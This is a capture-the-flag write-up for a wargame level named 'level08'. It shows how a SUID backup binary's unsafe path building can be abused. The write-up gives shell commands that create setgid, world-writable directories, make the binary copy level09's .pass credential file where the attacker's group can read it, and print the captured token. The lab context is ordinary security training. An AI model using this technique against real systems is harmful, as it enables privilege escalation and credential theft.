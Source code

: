 # level08

1. Overview

   * The binary naïvely builds the destination path as `"./backups/" + argv[1]` and copies the source file there using:

     ```c
     open(dst, O_WRONLY | O_CREAT | O_EXCL, 0660);
     ```
   * Because it is **SUID level09**, it can **read** `/home/users/level09/.pass` and then **create** the destination file under `./backups/...` with its own UID/GID.
   * Supplying an **absolute path** as argument makes the destination `./backups//home/users/level09/.pass`. The only reason it fails at first is that the intermediate directories under `./backups/` do not exist yet.
   * Files are created with mode **0660** (subject to umask). With the right directory setup, you can make the copied file group‑readable by **your** group.

2. Attack plan (why it works)

   * Create the missing directory tree under `./backups/` that mirrors the absolute path.
   * Set the **setgid** bit on those directories so newly created files inherit the **directory's group** (your group), not level09's.
   * Ensure the directories are world‑writable so the SUID program can create the file there.
   * Run the program with the absolute path; it will copy the secret using its privileges, but the resulting file's **group** will be yours and the **mode** includes group read → you can read the token.

3. Step‑by‑step

```bash
cd /home/users/level08

# 1) Create the directory tree that matches the absolute path under ./backups/
mkdir -p backups/home/users/level09

# 2) Set setgid (+s on group) and make the dirs writable for everyone
#    New files will inherit the directory's group
chmod 2777 backups backups/home backups/home/users backups/home/users/level09 #optionnal

# 3) Run the SUID binary with the absolute source path
/home/users/level08/level08 /home/users/level09/.pass

# If it worked, the copy now exists with your group
ls -l backups/home/users/level09/.pass
# expected: -rw-rw---- 1 level09 <your-group> ... backups/home/users/level09/.pass

# 4) Read the token
cat backups/home/users/level09/.pass
```

5. Token

Token found `fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S`